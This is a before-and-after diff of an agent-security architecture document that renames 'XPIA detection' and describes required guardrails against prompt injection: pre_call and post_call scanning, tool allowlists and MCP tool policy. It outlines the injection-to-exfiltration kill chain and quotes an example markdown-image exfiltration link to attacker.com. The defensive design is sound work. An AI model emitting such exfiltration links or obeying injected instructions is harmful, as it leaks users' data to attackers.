

Before and after one commit to geoffbelknap/ask, a Markdown page: ARCHITECTURE.md, the part around one of its changes. Shown at 83% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/ARCHITECTURE.md
+++ b/ARCHITECTURE.md
@@ -456,15 +456,15 @@ This satisfies Tenet 1 (constraints are external and inviolable — the agent ca
 
 This section defines required guardrail capabilities — what an implementation must provide — not specific detection techniques or deployment patterns.
 
-Guardrails scan content at two points: **pre_call** (scanning input before it reaches the LLM) and **post_call** (scanning responses before they return to the agent). The pre_call/post_call dual mode is non-negotiable for agents. Pre_call catches injection in user-facing input. Post_call catches the XPIA kill chain: poisoned tool output → manipulated LLM response → exfiltration attempt on the way back out.
+Guardrails scan content at two points: **pre_call** (scanning input before it reaches the LLM) and **post_call** (scanning responses before they return to the agent). The pre_call/post_call dual mode is non-negotiable for agents. Pre_call catches injection in user-facing input and tool responses before they reach the LLM. Post_call catches the full injection kill chain — poisoned content → manipulated LLM response → exfiltration or unauthorized action on the way back out — as well as credential leakage, policy violations in generated content, and unauthorized tool calls.
 
 ### Required Guardrail Capabilities
 
 An ASK-conforming implementation must provide three guardrail capabilities. The specific detection techniques (regex, ML, heuristic) and deployment patterns are implementation-dependent — the capabilities are the requirement:
 
-**XPIA Detection** (pre_call + post_call). Scans input before it reaches the LLM (pre_call) and scans LLM responses before they return to the agent (post_call). Must cover common injection vectors: direct injection phrases, HTML/markdown-based exfiltration, role override attempts, and encoded payloads. Implementations may use regex patterns, ML models, heuristic detectors, or a combination.
+**Injection & Content Threat Detection** (pre_call + post_call). Scans input before it reaches the LLM (pre_call) and scans LLM responses before they return to the agent (post_call). Must cover common injection vectors: direct injection phrases, HTML/markdown-based exfiltration, role override attempts, and encoded payloads. Implementations may use regex patterns, ML models, heuristic detectors, or a combination.
 
-**Tool Permission Guard** (LLM tool call allowlist). Enforces a whitelist of which tools the agent is allowed to call via the LLM, and can restrict tool arguments to approved patterns. If XPIA convinces the LLM to call an unauthorized tool, the guard blocks it. Default configuration should be deny-all.
+**Tool Permission Guard** (LLM tool call allowlist). Enforces a whitelist of which tools the agent is allowed to call via the LLM, and can restrict tool arguments to approved patterns. Blocks unauthorized tool calls regardless of cause — injection, manipulation, or behavioral drift. Default configuration should be deny-all.
 
 **Gateway MCP Tool Policy** (MCP server/tool allowlist). Enforces per-server, per-tool allowlists on MCP tool calls at the process level (gateway sidecar). Where the tool permission guard mediates tool calls in LLM responses at the proxy layer, the MCP policy mediates MCP tool calls between the agent process and MCP server subprocesses. This is necessary because a compromised agent could invoke MCP tools without going through the LLM at all, bypassing the proxy-level guard entirely.
 
@@ -472,11 +472,11 @@ An ASK-conforming implementation must provide three guardrail capabilities. The
 
 ```
 Input (user message, tool output, web content)
-  ├─► [pre_call]  XPIA detection          → scan for injection patterns
+  ├─► [pre_call]  Injection detection      → scan for injection patterns
   ├─► [pre_call]  (optional layers)        → ML detection, PII masking, URL scanning
   ▼
 LLM Call (provider API via LLM proxy)
-  ├─► [post_call] XPIA detection          → scan LLM responses
+  ├─► [post_call] Injection detection      → scan LLM responses
   ├─► [post_call] Tool Permission Guard   → validate tool calls are authorized
   ├─► [post_call] (optional layers)        → ML detection, PII masking, URL scanning
   ▼
@@ -488,9 +488,9 @@ Response returned to agent
 
 The architecture supports additional guardrail layers beyond the required capabilities. These extend coverage but are not required for framework conformance:
 
-**ML-based XPIA detection.** ML models that differentiate direct injection from indirect prompt injection in tool outputs. Returns confidence scores rather than binary pattern matches. Catches sophisticated attacks that evade regex.
+**ML-based injection detection.** ML models that differentiate direct injection from indirect prompt injection in tool outputs. Returns confidence scores rather than binary pattern matches. Catches sophisticated attacks that evade regex.
 
-**Malicious URL/domain scanning.** Detects malicious URLs in responses before they reach the agent — critical for catching XPIA exfiltration via rendered markdown images (`![](https://attacker.com/steal?data=...)`).
+**Malicious URL/domain scanning.** Detects malicious URLs in responses before they reach the agent — critical for catching exfiltration via rendered markdown images (`![](https://attacker.com/steal?data=...)`) and other URL-based attack vectors.
 
 **PII masking.** NLP-based detection and masking of personally identifiable information. Pre_call masks PII before the LLM sees it. Post_call masks PII the LLM generated. Can run locally with no external API calls.
 
@@ -498,7 +498,7 @@ The architecture supports additional guardrail layers beyond the required capabi
 
 ### Defense Posture
 
-The three required capabilities (XPIA detection + tool permission + MCP policy) provide the minimum guardrail coverage. Simple implementations (regex-based detection, static allowlists) can work in fully network-isolated environments with zero external dependencies. Adding ML-based layers extends coverage to novel attack patterns — but may require external service access or commercial accounts. The architecture is designed so that layers stack independently: adding or removing a layer doesn't affect the others.
+The three required capabilities (injection detection + tool permission + MCP policy) provide the minimum guardrail coverage. Simple implementations (regex-based detection, static allowlists) can work in fully network-isolated environments with zero external dependencies. Adding ML-based layers extends coverage to novel attack patterns — but may require external service access or commercial accounts. The architecture is designed so that layers stack independently: adding or removing a layer doesn't affect the others.
 
 ---
 
````
Also changed, not shown: other parts of ARCHITECTURE.md (+8 -8 lines), FRAMEWORK.md (+8 -8 lines).
